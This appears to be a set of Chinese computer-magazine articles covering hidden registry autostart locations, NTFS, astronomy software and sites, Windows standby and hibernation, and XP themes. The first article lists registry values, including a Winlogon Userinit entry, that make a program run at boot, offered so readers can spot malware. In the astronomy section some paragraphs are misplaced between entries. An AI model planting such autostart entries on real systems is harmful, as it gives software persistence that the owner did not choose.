在Windows注册表中，留有许多自启动位置，在其中设置了正确的键值内容后就能实现程序的开机自启动。这项功能应该说对程序使用带来了很大方便，但同时也成了病毒、木马滋生的“温床”。在本刊今年第1期的《病毒后遗症 妙手来清除》中详细列举了系统中存在的注册表自启动项，可是自启动项真的只有这些吗？在一次和黑客朋友的交流中，我又知道了几个不常见的自启动位置。

注意：下列键值不能用于服务及驱动程序的自启动。
测试环境：Windows XP SP2，以启动D:\test.exe为例

```
[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows]
"load"="d:\test.exe"
"run"="d:\test.exe"
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Explorer\Run]
"1"="d:\test.exe"
```

说明：除了“1”之外，还可以添加“2”、“3”，以此类推，按数字排列。

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"Userinit"="C:\WINDOWS\system32\userinit.exe,d:\test.exe"
```

使用这三个注册表位置实现自启动的正常程序非常少见，但病毒、木马、恶意程序则非常偏爱这几个位置。今后在检查自启动时，是不是又多了个心眼？

（奔三奔四）

# NTFS 忘不了你的好

随意在分区间移动，内容不会因此产生任何不同。

## 什么是文件系统和NTFS

首先，需要澄清读者对于文件系统的一些错误理解，经常有这样的说法，“我的硬盘是FAT32格式的”，“C盘是NTFS格式”等，它们的错误在于，NTFS或是FAT32并不是格式，而是管理文件的系统，其次刚买回来的硬盘并没有文件系统，必须使用FDISK或Windows 2000/XP的分区工具对其进行分区并格式化后才会有管理文件的系统，因此文件系统是对分区的，而不是硬盘，不管是将硬盘分成一个分区，还是几个分区。

NTFS的英文全称为“NT File System”，中文意为NT文件系统。它随着1996年7月的Windows NT 4.0诞生，但直到 Windows 2000，它才开始在个人用户中间得以推广，跨入了主力分区文件系统的行列。今天，Windows XP/2003 和 NTFS 早已是“如胶似漆”了。我们知道，当初FAT32文件系统的出现对于FAT16而言，可以说是有了比较明显的改善，但NTFS对FAT32的改进，就必须得用“卓越”来形容了。NTFS最大分区上限已达到了2TB（1TB = 1024GB），从诞生到现在经历了多个版本，Windows NT4.0中的版本为1.2，Windows 2000为3.0，Windows XP为3.1。如果要查看当前NTFS版本号，只要在命令提示符中输入“fsutil fsinfo ntfsinfo C:”（C为分区盘符）即可看到。

打个通俗的比喻，一块硬盘就像一块空地，文件就像不同的材料，我们首先得在空地上建起仓库（分区），并且指定好（格式化）仓库对材料的管理规范（文件系统），这样才能将材料运进仓库保管。文件不会受所在分区的文件系统影响，就像同样是汽车轮胎在A仓库可能直接堆在地上，而在B仓库则会挂在墙上，仅仅是放置和管理方法不同而已，因此，在NTFS分区和FAT32分区的文件可以随意在分区间移动，内容不会因此产生任何不同。

## 小知识：常见文件系统

- FAT12：它是IBM第一台个人电脑中的MS-DOS 1.0使用的文件系统，主要用于软盘。这种系统限制分区的容量最大为16MB——但这根本算不上问题，因为软盘容量从来没有达到16MB。
- FAT16：它被很多操作系统支持，兼容性最好，但分区最大只能到2GB，并且空间浪费现象比较严重。由于FAT16文件系统是单用户文件系统，不支持任何安全性及长文件名。
- FAT32：它是在FAT16基础上发展而来，随着Windows 95 OSR2一起发布的，可以被大多数操作系统支持，FAT32比FAT16更有效地利用了硬盘空间，并且最大分区的上限已经达到了32GB，适合一般家庭使用。
- ISO9660：CD-ROM的文件系统，不过现在已经延伸出很多新的文件系统，对它的一些缺点进行了弥补，如Juliet等。
- UDF：可读写光盘的文件系统。
- Mac HFS：苹果电脑的文件系统，对大容量磁盘有比较好的支持。不过，现在大多数苹果电脑还在使用FAT32文件系统。

## 细数 NTFS 的四大优点

### 1. 具备错误预警的文件系统

在 NTFS 分区中，最开始的 16 个扇区是分区引导扇区，其中保存着分区引导代码，接着就是主文件表（Master File Table，以下简称 MFT），但如果它所在的磁盘扇区恰好出现损坏，NTFS 文件系统会比较智能地将MFT换到硬盘的其他扇区，保证了文件系统的正常使用，也就是保证了 Windows 的正常运行。而以前的 FAT16 和 FAT32 的FAT（文件分配表）则只能固定在分区引导扇区的后面，一旦遇到扇区损坏，整个文件系统就要瘫痪。
这种智能移动 MFT 的做法并非十全十美，如果分区引导代码中指向 MFT 的部分出现错误，那么NTFS文件系统便会不知道到哪里寻找 MFT，从而会报告“磁盘没有格式化”这样的错误信息。为了避免这样的问题发生，分区引导代码中会包含一段校验程序，专门负责侦错。

### 2. 文件读取速度更高效！

NTFS分区能大大提高文件读取速度
恐怕很多人都听说NTFS文件系统在安全性方面有很多新功能，但你是否知道：NTFS在文件处理速度上也比FAT32大有提升呢？对DOS略知一二的读者一定熟悉文件的各种属性：只读、隐藏、系统等。在NTFS文件系统中，这些属性都还存在，但有了很大不同。在这里，一切东西都是一种属性，就连文件内容也是一种属性。这些属性的列表不是固定的，可以随时增加，这也就是为什么你会在NTFS分区上看到文件有更多属性的原因。

NTFS 文件系统中的文件属性可以分成两种：常驻属性和非常驻属性，常驻属性直接保存在MFT中，像文件名和相关时间信息（例如创建时间、修改时间等）永远属于常驻属性，非常驻属性则保存在MFT之外，但会使用一种复杂的索引方式进行指示。如果文件或文件夹小于1500字节（其实我们的电脑中有相当多这样大小的文件或文件夹），那么它们的所有属性，包括内容都会常驻在MFT中，而MFT是Windows一启动就会载入到内存中的，这样当你查看这些文件或文件夹时，其实它们的内容早已在缓存中了，自然大大提高了文件和文件夹的访问速度。

## 小提示：为什么FAT的效率不如NTFS高

FAT文件系统的文件分配表只能列出了每个文件的名称及起始簇，并没有说明这个文件是否存在，需要通过其所在文件夹的记录来判断，而文件夹入口又包含在文件分配表的索引中。因此在访问文件时，首先要读取文件分配表来确定文件已经存在，然后再通过链式的检索找到文件所有的存放簇，最终确定后才可以访问。

### 3. 磁盘自我修复功能

NTFS利用一种“自我疗伤”的系统，可以对硬盘上的逻辑错误和物理错误进行自动侦测和修复。在FAT16和FAT32时代，我们需要借助Scandisk这个程序来标记磁盘上的坏扇区，但当发现错误时，数据往往已经被写在了坏的扇区上了，损失已经造成。
NTFS文件系统则不然，每次读写时，它都会检查扇区正确与否。当读取时发现错误，NTFS会报告这个错误；当向磁盘写文件时发现错误，NTFS将会十分智能地换一个完好位置存储数据，操作不会受到任何影响。在这两种情况下，NTFS都会在坏扇区上做标记，以防今后被使用。这种工作模式可以使磁盘错误较早地被发现，避免灾难性的事故发生。

有些人发现当把磁盘转换为NTFS文件系统后，用磁盘扫描程序就很难发现磁盘错误了。经过前面的介绍，你知道这是为什么了吗？

### 4. “防灾赈灾”的事件日志功能

在NTFS文件系统中，任何操作都可以被看成是一个“事件”。比如将一个文件从C盘复制到D盘，整个复制过程就是一个事件。事件日志一直监督着整个操作，当它在目的地——D盘发现了完整文件，就会记录下一个“已完成”的标记。假如复制中途断电，事件日志中就不会记录“已完成”，NTFS可以在来电后重新完成刚才的事件。
事件日志的作用不在于它能挽回损失，而在于它监督所有事件，从而让系统永远知道完成了哪些任务，哪些任务还没有完成，保证系统不会因为停电等突发事件发生紊乱，最大程度降低了破坏性。

### 5. 我是否需要那些附加的功能？

其实，NTFS还提供了磁盘压缩、数据加密、磁盘配额（在“我的电脑”中右击分区并选择“属性”，进入“配额”选项卡即可设置）、动态磁盘管理等功能，这些功能在很多报刊杂志上介绍的比较多了，这里不再详细介绍。

NTFS提供了为不同用户设置不同访问控制、隐私和安全管理功能。如果你的系统处于一个单机环境，比如家用电脑，那么这些功能对你意义不是很大。

## 小提示：从FAT转换过来的NTFS，性能有折扣

如果分区是从FAT32转换为NTFS文件系统的（使用命令为“CONVERT 驱动器盘符 /FS:NTFS”），不仅MFT会很容易出现磁盘碎片，更糟糕的是，磁盘碎片整理工具往往不能整理这个分区中的MFT，严重影响系统性能。因此，建议将分区直接格式化为NTFS文件系统。

## NTFS的七大热点问答

### 1. 是不是 NTFS 一定比FAT32更高效，为什么我感觉不到呢？

当然也不能这样一概而论，因为NTFS与FAT的单个文件操作速度差异往往仅在毫秒之间，一般无法察觉。如果硬盘小，文件操作不频繁，那么差异不明显，不过随着硬盘向200GB迈进，电脑同时执行多任务的机会不断增加，差异会越来越明显。
同时，NTFS的MFT相当于一个小型数据库，因此对硬件也有较高要求，而且对于较小分区它反而不如FAT32更高效，因此，是否使用NTFS文件系统还有以下几个注意点：
★微软建议分区大于32GB最好使用NTFS文件系统，而且在Windows XP中，分区超过这个数字后，就无法格式为FAT32文件系统了。专家的建议是，分区在8GB以下，FAT32会更高效；分区在16GB或更高时，最好选择NTFS文件系统。对于8GB~16GB的分区，使用哪种就看你自己的喜好了。
★硬盘转速最好在5400转以上，CPU主频不低于700MHz，内存不少于256MB。

### 2. 在Windows 98中如何查看NTFS分区中的内容？

推荐你使用NTFS Reader for DOS（下载地址：http://www.onlinedown.net/soft/10162.htm），它可以在DOS中查看、复制NTFS分区中的文件。另外，你还可以下载http://download2.lsoft.net/NtfsFloppySetup.exe，用它可以制作能够访问NTFS分区的启动软盘，而http://download2.lsoft.net/boot-cd-iso.zip则可制作相应的启动光盘。

### 3. 看起来主文件分区表（MFT）十分重要，如果它损坏了如何恢复？

很简单，在“开始→运行”中输入“Cmd”，进入命令提示符。输入“Chkdsk”，回车后就会开始查找磁盘错误，找到后可以使用“Chkdsk /F”进行修复。

另外，还有朋友在看过《系统慢可能是你的文件太多了》一文后询问，如何优化MFT，其实很简单，就是定期用磁盘碎片整理工具整理磁盘，这样同时也会对MFT中的碎片进行整理。这里还有一个手工的方法，就是将分区中所有文件移动到其他分区，然后再移动回来，这等于重新整理和优化了数据分区的MFT，但效果比碎片整理差一些。

### 4. NTFS会对游戏运行有不良影响吗？

很多人关注这个问题，而有些人认为FAT32更适合玩游戏。其实，NTFS只是一种管理文件的系统，和游戏没有任何直接联系。也就是说，NTFS不会对游戏有特别优势，FAT32也同样如此。惟一值得小心的是一些较低级别的应用程序，它们会跳过高端的Win32 API接口，试图直接访问磁盘扇区，它们才是NTFS可怕的敌人。

# 5. 如何配置簇的大小呢？

簇是文件系统中基本的储存单位，当你在Windows对分区进行格式化时，会有簇大小的选择(见图4)，如果设置的值比较大，那么文件保存时占用的簇就会少，文件读取性能就越高。还是用个比喻，簇就像仓库中的柜子，如果你选择的是小号柜子，那么一批材料可能一个柜子装不满，还得用三到四个，如果是大号柜子，那么可能只用一个或两个就装下了。这样装和取材料时，柜子越少效率就越高。但是，不少批次的材料可能一个大柜子都装不满，这样柜子就只能空着许多空间，积少成多，会浪费不少空间。
到底应该选择多少更合适呢？一个简单的办法就是，首先确定分区主要用来保存什么样的文件，如果是体积很大的视频和多媒体文件，那么最好将簇设置得大一些，这样可以提高性能。如果分区主要存储网页或文本文件，建议簇小一些，推荐使用Windows的“默认值”，这样会减少空间浪费。

如果你想更改当前分区的簇的大小，同时又不想重新格式化，可以使用PQMagic来完成(“高级→调整簇的大小”)。

# 6. 什么时候选择压缩NTFS卷

在“我的电脑”中右击某个分区并选择“属性”，在“常规”选项卡中有一个“压缩驱动器以节省磁盘空间”的选项，这个功能确实可以节省一些磁盘空间，但根据CPU速度、分区的大小和要压缩的数据，应用它后可能会出现不同的效率，或者提升，或者降低系统性能。
我们建议，如果CPU非常快，但硬盘属于比较慢的型号，可以考虑压缩，这样会对文件读取效率有些提高；如果分区大于8GB，则不要选择压缩，否则会影响系统性能；如果分区中保存的文件大部分是已经不能压缩的数据，比如JPG、ZIP等已经压缩过的文件，那么即使选择了压缩，也不会有节省空间的效果，建议对主要保存文本、BMP等文件的分区进行压缩。

# 7. 给文件/文件夹加密之后，系统被格式化了，怎么才能访问这些文件夹？

最保险的方式是在格式化之前，以管理员身份设置“数据恢复代理”，以备将来的不时之需。具体使用方法参见http://support.microsoft.com/kb/241201/zh-cn。

# 数字星空

要把电脑应用在天文方面自然少不了各种天文软件的辅佐。常见的天文软件很多，绝大多数都能模拟任意时刻的星空，甚至日、月食这样的天文现象，使用天文软件可以减轻长时间使用天文望远镜观测星空对观测者视力造成的损害。不过天文软件也有专业与非专业之分，只有使用者在看清自己天文水平的前提下选择一款适合自己的天文软件，才会收到事半功倍的效果。笔者挑选了下面几款各具特色的天文软件简单介绍一下。

# 必不可少的天文工具

CyberSky小档案
软件版本：3.3.1
软件大小：988KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.cybersky.com/csky331s.exe
汉化包下载：http://dlb.pchome.net/system/desktop/shell/HA_Cybersky331.exe

CyberSky(见图1)是最适合初学者使用的天文软件。具备了初学者需要的所有功能，如星座连线、按星座划分星空、显示天球经纬网、地平经纬网等，可以帮助菜鸟很快熟悉星空，而这些功能是更专业的天文软件不屑一提的。相反很多深层次的观测项目在CyberSky中都没有涉及太多，甚至根本没有出现。可以说CyberSky很好地满足了初学者的要求，是初学者快速入门的必备工具。

与CyberSky相仿的软件有很多，使用它们之前必做的两个步骤是告诉软件我们的地理位置和设置显示天体数量。由于观测者所在地理位置不同，在同一时刻观测到的星空会产生不可忽略的微小差异。CyberSky默认观测点是美国的Torrance，你可以在菜单中选择“Options→Location…”，在弹出对话框中单击“Add…”按钮设置自己位置。例如笔者所在的山东济南为东经116°59′、北纬36°39′，东八区。另外城市中夜晚的各种灯光会使一部分本来就很昏暗的天体无法被观测到，要在菜单中选择“Chart→Stars…”，滑动对话框中的滑块来调节显示天体的数量，使之符合观测实际。图2中所示的是狮子座和双子座，每年的11月中旬和12月中旬在这两个星座会有壮观的流星雨出现。强烈建议众GG牢记这两个星座的位置，到时候带自己的MM到流星雨的夜空下浪漫一番！*^o^*

# 小知识

# ★天体与天球

天文学上把各种星体统称为天体。宇宙空间广阔无限，很多恒星体积、亮度是太阳的几百倍，但由于它们离我们太远，所以看上去只是夜空中的一个亮点。这样我们无法根据恒星的体积、亮度判断它们到地球的距离。人们根据实际观测的景象假想在夜空有一个球，所有天体都投影在这个球上，这个球就是天球。因为两个天体在天球上的距离只是投影的距离而与它们的实际距离无关，所以天球上两个挨得很近的天体间的实际距离很有可能是出乎意料的远。

# ★星座

天文学上为了方便，把满天繁星划分为88个星座，这样观测者在找某个天体时就无需用手乱比划了。其中位于黄道(即地球公转轨道在天球上的投影)上的12个星座即是占星学上讲的“12星座”，但它们与天文学上所说的星座没有特别大的联系。

# ★地平经纬网 天球经纬网

按星座划分星空可以笼统地描述天体的位置，使用地平经纬网和天球经纬网则能给天体精确的定位。地平经纬网是根据地平坐标系在天球上建立的经纬网，以真地平为基本圈，天顶为顶点，与天球经纬网略有不同。天球经纬网是根据赤道坐标系在天球上建立的经纬网。地球的自转轴指向北极星附近，使星空看上去在围绕着北极星不停转动，天球经纬网以赤道在天球上的投影(即天赤道)为基本圈，北极星附近为基点。很多专业的文章中描述某个天体位于“赤经XX°，赤纬XX°”就是指该天体在天球经纬网上的坐标。

# 陪你去看流星雨

大气层外的天体碎片受地心引力进入大气层时，会与大气摩擦而剧烈燃烧，成为流星。每天都有无数的天体碎片进入大气层，其中的大多数在落地之前已经烧尽，未烧尽的部分就是陨石。不同陨石的组成成分各有差异，是研究其他天体难得的岩石标本。
彗星是太阳系内的常见天体，其运行轨道是以太阳为一个焦点的椭圆。彗星运行到近日点附近时受太阳的作用会在轨道上留下大量的碎片。当地球公转到彗星轨道附近时就会有大量碎片同时进入大气层，形成流星雨。随着时间的推移，很多著名流星雨会慢慢沉寂下来，而新的流星雨又会被人们发现，这都与流星雨相关的彗星有关。流星雨在天球上固定的位置爆发，我们常说“XX座流星雨”，是指流星雨的爆发点在天球上的XX星座内，与这个星座无关。每年值得大家关注的流星雨如下：

| 时间 | 相关星座 | 相关彗星 |
| --- | --- | --- |
| 4月16日～4月25日 | 天琴座 | 1861 I |
| 7月15日～8月15日 | 宝瓶座 | - |
| 8月7日～8月16日 | 英仙座 | 1862 III |
| 10月16日～10月27日 | 猎户座 | 哈雷 |
| 11月14日～11月19日 | 狮子座 | 1866 I |
| 12月11日～12月16日 | 双子座 | 1993TB |

# 老鸟最爱——Deepsky 2003

对于老鸟来说，天文软件的星图功能已经显得不那么重要了，因为他们早就将星图烂熟于心，星空中的深空天体是他们的研究对象。作为一款专攻深空天体的软件，Deepsky是老鸟们的最爱(官方网站:http://www.deepsky2003.net)。与前面所说的软件相比，Deepsky没有靠花哨的功能吸引使用者的眼球，用户在使用软件时面对的是一幅标有深空天体的固定星图，而不是模拟的星空。Deepsky没有在一般天体上浪费太多精力，而在深空天体方面下了很大功夫，仅深空天体的图片资料就有60MB。如果还有挑剔的用户嫌Deepsky的天体资料不够全面，Deepsky可以连接到一些国外的著名天文网站以便用户搜索下载最新的深空天体资料。

# 名词解释

# 深空天体

严格说来深空天体是太阳系以外的各层次天体，我们平时所说的深空天体指的是距地球很远、需要用天文望远镜观测的星系、星云和星团。

# 网上天文篇

互联网是天文同好们获取资料、交流信息的最佳工具，下面带大家拜访几个著名的天文站点。

# 1. 北京天文馆

网址：http://www.bjp.org.cn
北京天文馆是我国著名的天文馆之一。在其网站上能浏览到最新的天象预报、观测指南及天文方面的文章，每当有重要天象出现时这里还会发布一些集体观测活动、天文馆延长开馆时间的公告。这个网站还是天文杂志《天文爱好者》(听起来很像CFan的姊妹刊物：))的主页，因此论坛上聚集了很高的人气，比较适合菜鸟们交流学习天文知识的心得和提问一些比较基础的问题。

# 2. 牧夫天文网

网址：http://www.bootes.org
牧夫天文网是天文同好们建立的非官方网站，大概也是最早的民间中文天文网站。网站的牧夫天文论坛是国内目前人气最旺的天文论坛，经历了5年多的风雨，该论坛已经有注册用户一万余人。

# 3. 星空天文网

网址：http://www.cosmoscape.com/
阳光的作用下甩出一条长长的尾巴。此时人们可以很容易地区分一个天体是否是彗星，因此很多彗星是在运行到近日点附近时被人们发现的。现在我们通常借助SOHO卫星找到彗星。

# 小知识

# 太阳风

太阳风是太阳喷射出的高能粒子流，太阳风经过地球时对地球和人类的活动产生重要的影响，地球两极的极光就是太阳风的“杰作”。过强的太阳风会造成无线电通讯中断、人造卫星永久损坏等事故。

停止寻找外星人的行动。毕竟寻找外星人是一件比大海捞针还困难的事情，光凭几个热心科学家的努力是不够的，于是就有了SETI@HOME计划。
当需要运算的数据量超出了巨型计算机运算能力的范围时，科学家们只好寄希望于互联网。他们在网上发起网格运算的号召，并提供一个客户端，然后将需要运算的数据分解成一个个很小的工作单元(Work Unit)。
有人会问：“我们连到底有没有外星人都不知道，通过网格运算找到他们又从何谈起呢？”我们生活的环境中有数不清的无线电波，常见的有电视信号、手机信号等。人类已经向地球之外发送了无线电波，希望外星人能够收到信号并给予回复，外星人是否也正向地球发送类似的信号呢？位于波多黎各的阿雷西博(Arecibo)射电望远镜正在夜以继日地收集空中的无线电波，其精度足以收到非常弱的信号。该望远镜每天收到的无线电波有35GB之多，这些数据被分成大小为350KB左右的工作单元。SETI@HOME的客户端在运行时所作的工作就是通过计算检查下载到的工作单元中是否包含外星人发来的信号。前一阵子有报道称SETI@Home程序检测到一个标记为“SHGb02+14a”的不寻常信号，但至今还没有任何一个信号通过计算被证实确实是外星人的信息。虽然这项计划成功的希望很渺茫，但那些执着的人们仍在努力着……

# 4. Space.com

网址:http://www.space.com
Space.com是家喻户晓的英文天文网站，提供非常专业、全面的天文信息。建议英文不好的朋友先准备好翻译工具再访问Space.com。

# 5. 掠日彗星

网址:http://soho.nascom.nasa.gov/
寻找掠日彗星是一项非常有趣的天文活动，无论参与者是谁，只要有耐心，再加上一点运气就有可能拥有一颗由自己发现的彗星。
彗星是一种特殊的天体，当彗星距离太阳较远时，看上去与其他的天体没有什么区别，但当它距离太阳很近时会在太阳风和太阳

# 6. SETI@HOME

中文网址:http://www.equn.com/seticn/index.htm
人类从未否认地外文明的存在，也没有

（济南 Paul）

# Windows:他是这样休息的！

芝麻开门

青海读者赵亮来信说：一次正编辑文稿时，同学叫出去吃饭，他觉得时间可能比较长，就把电脑设置到了待机状态，结果回来以后无法恢复到正常状态了，先前的工作都白费了。由这次遭遇，这位读者提出了疑问：待机、休眠究竟是咋回事？它们之间究竟有何区别？

# 如何进入待机和休眠

按下“开始→关机”，在弹出窗口中，你会看到最后一项就是“待机”。怎么没有“休眠”呢？原来，系统默认是不启用休眠的，需要我们自己设置，在控制面板中双击“电源选项”，切换到“休眠”标签，勾选“启用休眠”(见图1)，就可以在关机菜单中看到“休眠”了。

# 电脑的高级电源管理

要掌握待机和休眠，必须先了解下面两个知识：ACPI和APM。

# 1. 什么是ACPI

ACPI是Advanced Configuration and Power Interface的缩写，中文意为“高级配置与电源接口”，这是微软、英特尔和东芝共同开发的一种工业标准。
ACPI主要可实现以下功能：
- 用户可以使电脑在指定时间开、关；
- 即插即用设备在插入时能够由ACPI来控制，并为其供电；
- 在无人使用电脑时可以使电脑进入休眠状态，但保证一些通信设备打开；
- 操作系统可以根据外设和主板具体需求为它分配能源；
- 操作系统可以在应用程序对时间要求不高的情况下降低时钟频率；
- 使用笔记本电脑的用户可以指定电脑在低电压情况下进入低功耗状态，以保证重要应用程序运行。
同时，可将ACPI分为六种不同的工作状态，分别是S0到S5，它们代表的含义分别是：
S0:电脑正常工作，所有硬件设备全部处于打开或正常工作的状态；
S1:也称为POS(Power on Suspend，CPU停止工作)，其他的硬件设备仍然正常工作；
S2:将CPU关闭，但其余的硬件设备仍然运转；
S3:通常称为STR(Suspend to RAM，挂起到内存)，将运行中的数据写入内存后关闭硬盘；
S4:也称为STD(Suspend to Disk，挂起到硬盘)，内存信息写入硬盘，然后所有部件停止工作；
S5:所有硬件设备(包括电源)全部都关闭，也就是关机。

# 2. 什么是APM

APM其实是Advanced Power Manager(高级电源管理)的缩写，这是通过操作系统来控制、管理电脑硬件电源的一种管理模式，其实也是一套电脑电源管理程序(软件)，版本不同，功能也有所不同，比如APM V1.0&V1.1，这两个版本都是直接由BIOS执行电源管理，而APM V1.2则是可以先通过操作系统定义电源管理，然后再由BIOS负责执行。
在如今流行的操作系统中，都内置了APM，而在以前的DOS时代，APM并未真正被引入操作系统，所以无法执行待机、休眠等操作，重启也只能用Ctrl + Alt + Delete组合键或电源的Reset键。

# 3. BIOS中的电源管理设置

一般而言，主板产商定义BIOS的默认设置都是启动了“高级电源管理”这个功能的，大多数情况下不需要我们自己设置，只需采用其默认设置即可。如果碰到以前能使用“高级电源管理”，但后来又不行了，排除系统或其他硬件可能外，才会考虑BIOS中的设置是否有问题。遇到这种情况，可以将BIOS设置还原到默认状态即可，方法为：启动电脑，用DEL键进入BIOS，用键盘上方向键定位到“Load Optimized Defaults”，然后按F10保存并退出BIOS设置即可。这里以Intel845PE主板为例，其他类型主板大致相同，这里仅作为参考。

# “Power Management Setup”常见设置举例

- ACPI Function:是否允许ACPI功能
- ACPI Suspend Type:ACPI的挂起类型，通常这里只有一个选择，即S1(POS)状态，其实这个就包含了其他的挂起状态(S2、S3、S4)
- Power Management:电能管理方式，默认为User Define(用户自定义)，还有就是Min Saving(最小)和Max Saving(最大)
- Video Off Method:显示器开关
可以设置的值:Blank Screen表示显示器不发射电子光束，即可减少耗电；V/H SYNC + Blank表示除Blank Screen外，还可由BIOS来控制显示器水平与垂直同步信号，达到省电目的，此项为默认设置；DPMS Support，DPMS是显示器与显卡之间的电源管理协定。在两者都支持DPMS的状态下，只要BIOS支持，显卡即可通过信号通知显示器进入省电模式。
- HDD Power Down:设置IDE硬盘在多长时间内完全没有读写操作时，便可进入省电状态，切断硬盘电源以省电，缺省值为Disabled。
- Modem Use IRQ:该选项说明Modem使用的端口所占用的IRQ编号，让系统在省电状态下仍可以监视Modem是否有活动，可以设置的值:N/A、3、4、5、7、9、11。其中N/A表示不对Modem进行监测；
- USB KB Wake-Up From S3:是否采用USB键盘唤醒，缺省值为“Disabled”。
- Soft-Off by PWR-Button:这是机箱电源开关的功能设置，在开机状态下，按住开机电源按键超过四秒钟，系统就一定会关机，如果不超过4秒，系统就会按此设置操作。可以设置的值:Delay 4 Sec表示超过4秒关机，如果不超过4秒则进入Suspend模式，此项为默认设置；Instant-Off表示不需要等待4秒，只要按下关机按钮立刻关机。

# 待机、休眠是怎样工作的

# 1. 为什么需要待机、休眠

尽管电脑硬件运行速度越来越快，但操作系统的体积也在不断膨胀，使得电脑开、关机时，启动、关闭的程序越来越多，花费时间也越来越漫长。因此如何让电脑能够快速启动、一开机就进入Windows，就成为用户关心的问题。
于是，随着硬件和软件的升级，操作系统开始引入了高级电源管理，其作用就是在电脑闲置时关闭部分设备，将电脑进入等待休息状态，这样当需要重新使用电脑时，能够直接从等待休息状态尽快恢复到原先的工作状态，起到类似于快速启动的效果；同时，不用电脑时还能节省不少电能。

## 2. 把数据存到内存中——待机

我们都知道，从硬盘读取数据的速度远低于从内存读取的速度。因此，电脑运行时首先是将硬盘中的数据提出并存到内存中，然后再由内存将数据发送到CPU中进行处理，接着处理后的数据将先返回内存，再写进硬盘。正在运行的数据几乎都保存在内存中。然而，进入待机状态也就是将当前数据保存在内存中，然后将硬盘关闭，也就是挂起到内存（Suspend to RAM，简称STR）。
这时除硬盘外，其他设备还是处于加电等待状态（也就是说唤醒时无须重新加电，通俗地说就是原地待命），所以电源、CPU、显卡等设备的风扇还是处于工作中，键盘指示灯也是亮着的。我们可以通过按键盘任意键或动一下鼠标来唤醒电脑，这时硬盘就会重新加电并启动，然后和内存、CPU等设备交换数据，从而完成返回到原来工作状态的任务。

## 3. 将内存装进硬盘——休眠

休眠，在广义上包括挂起到内存（STR，也就是待机）和挂起到硬盘（Suspend to Disk，简称STD）两种，而我们通常所指的休眠其实是STD。当电脑进入休眠状态时，电脑首先将内存中的状态复制到硬盘，然后关闭电源。此时电脑几乎和通常关机一样“安静”，你完全可以切断电源，因为保存到硬盘里面的数据不会由于断电而丢失！它和Ghost给系统做镜像的道理一样，不过与Ghost不同的是：Ghost保存并恢复的是整个系统信息，而休眠保存并恢复的是系统运行的信息。与待机相比，休眠是不能通过外部设备来唤醒的，它和正常开机一样启动电脑；不过和开机相比，休眠后启动电脑无须一个一个进程地来启动，只需要将硬盘中的内存镜像读取到内存中即可。
由于内存中的资料就是电脑当前的“状态”，为保持这个状态不变（可理解为不能压缩），系统必须在硬盘中开辟一个和内存容量大小相等的空间以保证能装下整个内存的“当前状态”，而这个空间的名字就叫hiberfil.sys，它的体积一般为物理内存的大小（比如电脑的内存是256MB，这个文件的体积也将是256MB），和我们管虚拟内存叫做pagefile.sys道理是一样的。

### 你知道吗？

### 为什么Windows 98中不要启用休眠？

原因有两个：
- 在刚推出Windows 98时，很多硬件对ACPI支持不是很好，所以Windows 98不能自动识别ACPI规范，不过可以在安装时用“Setup /pj”命令来安装Windows 98，或升级Windows 98“高级电源管理”的驱动，让其支持ACPI。
- 由于Windows 98的内核对内存管理上的缺陷，很多时候Windows 98需要将电脑重启，清空内存后才能保证系统正常高效地运行。休眠正好是不清空内存信息而将其存储到硬盘里面，所以休眠对Windows 98系统而言，也就失去了原来的意义。相比之下，NT内核的系统在内存管理方面要优秀得多，可以连续使用很多天而无须重启，系统照样能高效运行。

## 巧用待机、休眠，助你事半功倍

### 实例1：一键待机，一键关机

在控制面板中打开“电源选项”，切换到“高级”标签，将“在按下计算机电源按钮时”设置为“关机”，将“在按下计算机睡眠按钮时”设置为“待机”（见图2），这样按键盘上的“Power”键就是“关机”，按“Sleep”键就是“待机”，是不是方便了不少？
如果你的键盘没有“Sleep”键，可以在桌面右击并选择“新建→快捷方式”，在弹出对话框的“请键入项目的位置”中输入“rundll32.exe powrprof.dll，SetSuspendState”，完成后再给它设置一个快捷键组合，比如：Ctrl + F12。这个快捷方式的功能与“在按下计算机睡眠按钮时”的设置有很大关系，如果你将这里改为“休眠”，那么它就成了休眠的快捷方式了。

### 实例2：让鼠标别来打搅爱机休息

有不少朋友都碰上过由于鼠标太灵敏了，待机时，稍微震动一下电脑桌就唤醒了电脑，你可以依次打开“开始→运行”，输入devmgmt.msc，打开设备管理器，然后定位到“鼠标和其他指针设备”，打开当前鼠标设备的属性，切换到“电源管理”，取消“允许这台设备使用计算机脱离待机状态”（见图3），这样鼠标就不会来打扰爱机的休息了。

### 实例3：超快速关机法——待机+断电

由于待机是将数据存储到内存后正常地将硬盘关闭，也就是不会损坏硬盘。如果这时断电，所有在内存中的数据将丢失。从另外一个角度看，断电造成内存数据丢失，也可看作将内存清空，而此前待机已经将硬盘关闭了。我们平时的正常关机不就是在不会损坏硬盘的情况下将其关闭，然后切断内存电源关机目的吗？从这个角度看，待机后断电就等同于安全关机。所以，当正常关机速度太慢，就可以考虑先待机，然后拔电源来达到安全关机目的。不过，在执行这项操作前，记得先保存未完成的工作，比如打开的文档，正在运行的程序等。

#### 小提示

这种关机方法虽然快捷，但毕竟不是微软推荐的方法，属于一种有风险的强迫式关机方法，但由于它对硬盘没有影响，所以不会造成硬件损坏，特别适用于那些急于关机的用户。比如同事在电梯口催促Cornel电梯来了，让我赶快出门，就只好使用这种方法了。 （未雨绸缪）

# Windows XP为什么能变“大苹果”？

看过《资源和美丽我全要 XP完美克隆Mac OS》一文，你是不是很奇怪为什么Windows XP可以换成苹果的皮肤呢？而且还 不占用系统资源？

## Windows XP缘何如此美丽？

微软在Windows XP中共有三种界面主题，相对于Windows系统以前的版本来说非常漂亮（见图1）。但随着第三方软件厂商不断推出更炫的Windows XP主题，它们一下子就相形见绌了。如果在Windows XP中想改变系统自带的界面主题，或添加额外可视化效果就不得不安装第三方软件了。
这类软件无外乎是采用两种方式：一种是通过安装第三方软件来产生扩展名为MSSTYLES的文件，它的全称是“可视化外观风格文件”，是Windows用来创建其视觉效果的一种文件。还有一个办法就是更换Windows XP的Uxtheme.dll文件（保存在C：\Windows\System32目录下），从而达到使用第三方软件创建的特有的“可视化外观风格文件”。
